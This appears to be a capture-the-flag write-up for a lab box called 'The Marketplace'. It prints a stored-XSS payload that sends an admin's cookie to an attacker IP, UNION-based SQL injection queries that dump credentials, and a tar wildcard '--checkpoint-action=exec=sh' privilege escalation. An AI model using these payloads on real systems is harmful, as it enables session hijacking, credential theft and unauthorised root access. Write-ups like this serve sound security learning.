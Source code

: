# The Marketplace

This challenge exploits XSS, SQL injection and linux priv escalation.

## Reconnaissance

First to do some reconnaissance on the box, starting with nmap. Can be seen that there are 2 ports open that we can use namely http and ssh ports.

![nmap](./nmap.PNG)

Going to the website we get greeted to a home page with home, log in and sign up buttons along with some products already ip for sale.

Trying a couple of basic log ins like admin admin or admin password etc lead to nothing. We can however create an account. Now I have a messages tab at the top.

Looking at listings they can be reported to admins.

![Report](./Report.PNG)

Interesting that an admin will visit it.

I can also create a new listing.

## Flag 1

![Listing](./NewListing.PNG)

Some textboxes, can we XSS? I'll test with `<script>alert('xss');</script>`.

![xss](./xss.PNG)

Great! Now we can try and get hold of some admin access to the website using cookie grabbing.

Personally I didn't know how to do this from the start so I did some googling about and found an article [here](https://medium.com/@laur.telliskivi/pentesting-basics-cookie-grabber-xss-8b672e4738b2) which does basically what I want to do. This is how I amended it to this.

On the article there is the following xss script:

```html
<script type=“text/javascript”>document.location=“http://192.168.0.48:5000/?c=“+document.cookie;</script>
```

This essentially forwards the cookie to the webserver set up on that ip and port. Now I can just set up a simple http server with python listening to everything and just change the port to 8000 and the IP to my THM VPN IP.

Can set up the python server using `python3 -m http.server` and this will just capture anything coming through on you VPN IP on port 8000.

We then just create a listing with the XSS and then report it so the admin looks at it and we should have the admin cookie. Notice when you create the listing the page is now your directory, this doesn't help us so we need to know how it is being reported. If you just hover over another report listing we can see its in the format `http://<ip>/report/3` with 3 being the 3rd product on them name. well just amend to your XSS product number and report and watch the admin cookie come through.

Then just change your cookie and refresh, the first flag on the admin panel!

## Flag 2

Well now we have admin, before the cookie expires we need to do some looking about. Notice that on the page we are michael but we can see jake is also an admin. (Knowing the nature of CTFS we probably wana get into jakes account as we know ssh port is open).

![Panel](./panel.PNG)

You can actually click on those boxes. I noticed that the URL changed and it seemed to be searching for information so I added something to the end of the URL and got an error. Googling the error revealed it was a MySQL error. Nice so from here can assume we need to SQL inject.

Be aware if you trigger a bad gateway your cookie expires and you'll need to grab another.

Now I noticed adding ` password` didn't kick me out but let me continue and when I changed the number to an account that doesnt exist I get an SQL error. Now by looking at the page I can see 4 different things being displayed. User ID or number, name, ID again and if it has admin so we know 4 fields being show so in order to union ill pad 3 other results.

One useful thing to know in MySQL is the `GROUP_CONCAT()` function which groups all data onto one line which is greate for output. [Docs](https://www.w3resource.com/mysql/aggregate-functions-and-grouping/aggregate-functions-and-grouping-group_concat.php). Same with `database()` which returns the database name.

![database](./Database.PNG)

Database name is marketplace.

```sql
UNION SELECT 1, GROUP_CONCAT(table_name), 3 ,4 FROM information_schema.tables WHERE table_schema='marketplace'
```
Produces:

![Tables](./Tables.PNG)

so now we have table names.

Lets have a peak at Users as this might contain some useful information for the ssh.

```sql
UNION SELECT 1, GROUP_CONCAT(column_name), 3 ,4 FROM information_schema.columns WHERE table_schema='marketplace' AND table_name='users'
```

![ColmnsUsers](./ColmnsUsers.PNG)

Ok so look at passwords

![passwords](./passwords.PNG)

Hashes :( probs wont beable to crack them. Looking back the messages table seemed interesting.

```sql
UNION SELECT 1, GROUP_CONCAT(column_name), 3 ,4 FROM information_schema.columns WHERE table_schema='marketplace' AND table_name='messages'
```

![messages columns](./messagescolumns.PNG)

lets look at messages content:

![messages](./messages.PNG)

aha a password in plaintext. Lets ssh jake.

![Flag2](./Flag2.PNG)

The next flag!

## Flag 3

This one is a little more involved but even still, all can be found using GTFO bins.

First of all i ran the standard find all SUID command

```shell
find / -perm /6000 -type f -executable 2>/dev/null
```

but this lead to nothing. Then I looked at the sudo using `Sudo -l` and saw this

![sudo](./sudo.PNG)

so michael can run backup.sh as sudo. Interesting.

Looking into backup.sh we see

```sh
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```

So this uses tar to archive files. Interesting. Looking at GTFO they have a tar section and it has a sudo exploit.

Just to make sure michael can run it I ran `chmod 777 backup.tar` so he can backup everything in theat directory.

The just create some files named `--checkpoint=1` and `--checkpoint-action=exec=sh` and this can be done by either using touch or vim. Just run the backup.sh and you'll have michael shell.

Make sure you run it as michael using `sudo -u michael /opt/backups/backup.sh` and you'll spawn the shell.

![michael shell](./mshell.PNG)

Now we have michael we can get root as we need to access root folder.

Doing an ID check we see this.

![ID](./ID.PNG)

hmmmm docker usually isn't there, again looking on GTFO bins it has a command u can just paste in and root!

![root shell](./rshell.PNG)

Just navigate to your root folder and collect your flag :)
